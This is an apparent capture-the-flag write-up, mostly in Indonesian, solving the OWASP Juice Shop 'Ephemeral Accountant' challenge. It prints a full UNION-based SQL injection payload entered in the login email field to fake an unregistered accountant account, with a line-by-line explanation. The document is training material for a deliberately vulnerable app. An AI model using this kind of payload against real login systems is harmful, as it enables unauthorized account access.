

# Challenge: Ephemeral Accountant

Category: Injection
Points: 4 Stars
Difficulty: Medium

## Challenge Description

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Resource

[OWASP Juice Shop - Injection Challenges](https://juice-shop.herokuapp.com/#/score-board?categories=Injection)

## Step-by-Step Solution

1. Dari challange Database Schema, kita bisa melihat command SQL, kita bisa manfaatkan itu
   
2. Dari situ kita akan buat query SQL Lalu kita bisa masukkan ke field email pada login
   

**Payload SQL Injection yang digunakan:**

```sql
' UNION SELECT 10 as id, 'accountant' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, '192.168.1.17' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

**Penjelasan Payload:**

- `' UNION SELECT` - Menambahkan data virtual ke hasil query
- `10 as id` - ID user yang sudah ada (untuk menghindari conflict)
- `'acc0unt4nt@juice-sh.op' as email` - Email target yang diminta challenge
- `'1234' as password` - Password yang akan kita gunakan
- `'098f6bcd4621d373cade4e832627b4f6'` - MD5 hash dari password "test"
- `--` - Comment untuk mengabaikan sisa query

3. Login berhasil dengan user accountant yang dibuat secara virtual
   

## Reflection

- **Status:** ✅ Berhasil
- **Root Cause:** Query SQL pada login tidak memiliki validasi input yang proper untuk UNION injection
- **Attack Vector:** UNION-based SQL injection melalui parameter email untuk membuat user virtual
- **Key Insight:**
  - Berhasil menggunakan UNION SELECT untuk menambahkan data user virtual ke hasil query
  - Memanfaatkan struktur database yang sudah diketahui dari challenge sebelumnya
  - Menggunakan MD5 hash yang sudah diketahui untuk password "test"
  - Demonstrasi bagaimana SQL injection bisa digunakan untuk privilege escalation dan account creation
  - Teknik ini memungkinkan login dengan user yang tidak pernah didaftarkan sebelumnya
